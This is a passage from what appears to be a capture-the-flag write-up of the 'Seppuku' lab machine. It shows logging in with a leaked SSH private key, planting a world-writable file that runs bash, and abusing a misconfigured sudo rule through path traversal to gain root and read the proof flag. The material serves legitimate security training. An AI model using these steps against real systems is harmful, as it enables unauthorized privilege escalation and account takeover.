 If we remember what we already collected about this machine, the leaked `ssh` private keys come to our mind. So far we were not able to use them, but it might be a good idea to test if they are assigned to the user `tanto`.

Trying to log in with `private.bak` as user `tanto` via `ssh`.
```bash
$ ssh -i private.bak tanto@192.168.52.90 "bash --noprofile"
whoami
tanto
```

> Yay it worked!
{: .prompt-info }

Now lets create a link to the `bash` binary at the path specified above.
```bash
cd /home/tanto
mkdir .cgi_bin
chmod 777 .cgi_bin
cd .cgi_bin
echo "/bin/bash" > bin
chmod 777 bin
chmod +x bin
```

Switch back to user `samurai` and escalate to `root`
```bash
samurai@seppuku:~$ whoami
samurai
samurai@seppuku:/home$ sudo -l
Matching Defaults entries for samurai on seppuku:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User samurai may run the following commands on seppuku:
    (ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
samurai@seppuku:/home/tanto/.cgi_bin$ sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
root@seppuku:/home/tanto/.cgi_bin# whoami
root
```

> Root! Root!
{: .prompt-info }

## get second flag

```bash
root@seppuku:/home/tanto/.cgi_bin# cd /root
root@seppuku:~# ls
proof.txt  root.txt
root@seppuku:~# cat proof.txt
9******************************4
```

Pwned! <@:-) 
